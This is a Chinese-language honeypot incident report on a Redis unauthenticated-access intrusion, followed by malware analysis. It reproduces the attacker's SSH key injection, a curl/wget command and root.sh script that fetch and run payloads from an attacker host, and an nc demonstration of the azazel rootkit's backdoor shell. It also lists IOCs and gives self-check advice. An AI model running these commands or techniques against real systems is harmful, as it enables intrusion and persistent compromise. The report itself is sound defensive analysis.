 # Redis后门植入分析报告

**唐朝实验室蜜网项目组**

0x00 概述
=====

redis是一款基于内存与硬盘的高性能数据库，在国内外被大型互联网企业、机构等广泛采用。但其一些安全配置经验却不如“LAMP”等成熟，所以很多国内企业、机构的redis都存在简单的空口令、弱密码等安全风险。

11月10号，国外安全研究者的一份文档展示，redis在未进行有效验证，并且服务器对外开启了SSH服务的前提下，攻击者有可能恶意登录服务器甚至进行提权操作（root权限）

通过与一些企业机构的沟通，已经发现了大量扫描与自动化攻击痕迹。

唐朝实验室蜜网项目组于11月10号的晚上对蜜罐系统进行了更新，加入了redis服务，经过一个晚上的观测，我们捕获到了一次针对redis的扫描以及攻击，包括攻击者使用的远控。

我们的蜜罐纪录显示攻击者通过蜜罐中redis的漏洞进行攻击，进行远程控制程序的植入。

0x01 时间流
=====

11月10号 晚上11点多我们的蜜罐系统检测一个美国ip到对redis服务的扫描

```
Nov 10 23:07:51 redis[23]: Accepted 104.219.234.226:20572
Nov 10 23:58:26 redis[23]: Accepted 104.219.234.226:4460
Nov 10 23:58:30 redis[23]: Accepted 104.219.234.226:4493
Nov 10 23:58:33 redis[23]: Accepted 104.219.234.226:4797
Nov 10 23:58:36 redis[23]: Accepted 104.219.234.226:5108
Nov 10 23:58:41 redis[23]: Accepted 104.219.234.226:5424

```

攻击者在登入redis后写入了public key

```
1.1.1.1:6379> get crackit
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcuHEVMRqY/Co/RJ5o5RTZmpl6sZ7U6w39WAvM7Scl7nGvr5mS4MRRIDaoAZpw7sPjmBHz2HwvAPYGCekcIVk8Xzc3p31v79fWeLXXyxts0jFZ8YZhYMZiugOgCKvRIs63DFf1gFoM/OHUyDHosi8E6BOi7ANqupScN8cIxDGsXMFr4EbQn4DoFeRTKLg5fHL9qGamaXXZRECkWHmjFYUZGjgeAiSYdZR49X36jQ6nuFBM18cEZe5ZkxbbtubnbAOMrB52tQX4RrOqmuWVE/Z0uCOBlbbG+9sKyY9wyp/aHLnRiyC8GBvbrZqQmyn9Yu1zBp3tY8Tt6DWmo6BLZV4/ crack@redis.io\n\n\n\n”

```

之后查看了key

```
cat authorized_keys
REDIS0006�0xcafe0b3c6eu30x1447215705654crackitA�

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcuHEVMRqY/Co/RJ5o5RTZmpl6sZ7U6w39WAvM7Scl7nGvr5mS4MRRIDaoAZpw7sPjmBHz2HwvAPYGCekcIVk8Xzc3p31v79fWeLXXyxts0jFZ8YZhYMZiugOgCKvRIs63DFf1gFoM/OHUyDHosi8E6BOi7ANqupScN8cIxDGsXMFr4EbQn4DoFeRTKLg5fHL9qGamaXXZRECkWHmjFYUZGjgeAiSYdZR49X36jQ6nuFBM18cEZe5ZkxbbtubnbAOMrB52tQX4RrOqmuWVE/Z0uCOBlbbG+9sKyY9wyp/aHLnRiyC8GBvbrZqQmyn9Yu1zBp3tY8Tt6DWmo6BLZV4/ crack@redis.io

```

于11点58分ip`104.219.234.226`登陆了系统并执行了以下命令

```
curl http://85.118.98.197:61050/cyka/blyat/x.x86 > /tmp/ok; wget http://85.118.98.197:61050/cyka/blyat/x.x86 -O /tmp/ok; chmod 777 /tmp/ok; /tmp/ok

```

该命令通过一个格鲁吉亚的ip`85.118.98.197`下载了样本x.x86 写入`/tmp/ok`并执行

样本x.x86细节见 0x02

于11号早上10点10分 攻击者通过远程控制程序在 http://85.118.98.197:61050/root.sh 下载了root.sh脚本并执行

```
#!/bin/sh

mkdir /tmp/ok/;
cd /tmp/ok/
curl http://85.118.98.197:61050/k.tgz > /tmp/ok/k.tgz
wget http://85.118.98.197:61050/k.tgz -O /tmp/ok/k.tgz

tar -xzvf k.tgz
bash vishnu.sh

curl http://85.118.98.197:61050/done.txt > /dev/null
wget http://85.118.98.197:61050/done.txt -O /dev/null

```

0x02 样本分析
=====

**x.x86样本分析**

样本大小仅有23k，未经加壳保护，功能多样，并没有很严格的自我保护，初步推断起用途只是初步筛选存在漏洞的主机，同时为下一步植入rootkit做准备。

样本首先遍历文件句柄，执行close操作，确保接下来可以成功删除自身。

![enter image description here](http://drops.javaweb.org/uploads/images/6fd27964277c9681d24f9ca2bec2b32c470a52ca.jpg)

紧接着进行两次fork，避免出现意外而成为僵尸进程。 完成fork后紧接着调用unlink删除自身。

![enter image description here](http://drops.javaweb.org/uploads/images/fa0c5ba8f3ebfa1134e041334b00b28de336725d.jpg)

执行完以上的初始化任务后，样本会尝试连接`8.8.8.8`的53端口验证网络是否通畅。如果可以连接，紧接着会与`37.220.109.6`的53端口建立tcp连接，开始与c2服务器互发心跳包，等待服务器指令。

其中c2服务器IP为硬编码：

![enter image description here](http://drops.javaweb.org/uploads/images/e16e520e0c79431a6982b0ed943147a797addde6.jpg)

下图为心跳连接：

![enter image description here](http://drops.javaweb.org/uploads/images/c1e0ce8588e1217519ed0ce5a3246cd168dc52cd.jpg)

服务器会不定时主动下发指令，样本会依据收到的指令执行具体动作。

下图为其中一个服务器指令的数据包：

![enter image description here](http://drops.javaweb.org/uploads/images/e7b396f970f95bd0febc8fc60cb0f0d62c1b9721.jpg)

样本收到指令后的行为如下：

![enter image description here](http://drops.javaweb.org/uploads/images/8397721ce22b71232ebf9d97259e49c5c27e94f6.jpg)

解析指令：

![enter image description here](http://drops.javaweb.org/uploads/images/2ed78a627f94b5c40edf3183da6a5afe64d6dd99.jpg)

指令解析完成后会执行对应的函数，当任务完成后会返回至`loc_8049FB6`，等待开始新一轮指令到来。

![enter image description here](http://drops.javaweb.org/uploads/images/2a19d6df4be8d7e0b8f65864b4440f65983ed22a.jpg)

在本次利用过程中，此样本短小精悍，被用作"破门"工具。在利用redis漏洞进入主机后，留下一个仅23k的木马，反弹回主控服务器，服务器再统一下发指令，完成对目标的进一步入侵。

_k.tgz_

本次活动中，此样本下载了远端服务器的一套完整rootkit级后门源码，试图安装在主机中。

rootkit来源于github开源项目`https://github.com/chokepoint/azazel`，经过修改加强后植入主机。

本次活动中的rootkit是用户态的rootkit，并没有生成内核模组。但由于hook了绝大多数系统调用，被种上后门之后极其难以发现和清除。

rootkit通过写入`/etc/ld.so.preload`文件获得优先加载权，覆盖其希望hook的系统调用，导致所有使用动态链接的程序中使用的关键系统调用均被替换，几乎无法对rootkit进行有效的检测和清除工作。其hook之全甚至包括了pcap，所以本机抓包也是发现不了rootkit的。 大量的hook：

![enter image description here](http://drops.javaweb.org/uploads/images/6f3edbb83edb345ae50789d7a12d8e3e6b54ed6f.jpg)

pcap的HOOK：

![enter image description here](http://drops.javaweb.org/uploads/images/388b7217eab7844f4171fb5565842d689771b3d7.jpg)

非常有趣的是，这个rootkit还使用了一种有趣的后门开shell的方案，在代码中可以直接通过hook系统的accept函数，当触发到预先定义好的条件时将会调用drop_shell函数来弹出一个shell。 而这个shell使用的端口恰恰在rootkit所隐藏的区间内。

![enter image description here](http://drops.javaweb.org/uploads/images/1444e2fab6b06cd37b201e8a5fab1ae81ef0e6fd.jpg)

随便在无加密shell端口区间内开一个端口（用nc模拟一下）

```
nc -l -p 61041

```

然后用61042去连接这个61041端口，输入预先设置的口令

```
alkaid@alkaid-VirtualBox:~/azazel/python-pty-shells$ nc 127.0.0.1 61041 -p 61042changeme
Welcome!
Here's a shell: root@alkaid-VirtualBox:/home/alkaid/azazel/python-pty-shells#

```

也就是说直接在任意端口上开了个后门，如果使用的端口号位于azazel 隐藏区间，还可以避免被发现。

当然也有加密方式的端口后门和区间，有兴趣可以去试一下azazel官方文档上socat的连接方式。

本次活动中截获的样本，本质上是使用azazel开源项目隐藏自己的后门。但不得不说的是，这个后门作者非常聪明地将自己的后门和azazel项目紧密结合起来，由一个巧妙但并不难发现的后门一跃而成为了rootkit级别的高危恶意软件。在这次活动中我们还发现了比较不同寻常的一点，以往的恶意软件部署绝大多数都是采用脚本或根据平台直接部署二进制文件，而自一次，攻击者却使用第一次打入的远程控制软件下载了rootkit的全套源码，在受害主机上完成整个编译安装的过程。同时攻击者似乎对肉鸡有些洁癖，在源码中我们发现一个名为“kill-other”的脚本 ，其作用是清除其他入侵者留下的木马，确保肉鸡的唯一控制权。

0x03 redis自查建议
=====

请企业近期额外注意redis服务器的异常。自查方法：查看redis服务的认证机制，是否无认证或弱口令；同时检查redis服务roor的.ssh目录下是否出现非法的KEY

0x04 附录
=====

**样本md5**

x.x86 9101e2250acfa8a53066c5fcb06f9848

k.tgz bd3ac812281c0d9a378383dd934a6013

**ip**

104.219.234.226

85.118.98.197

37.220.109.6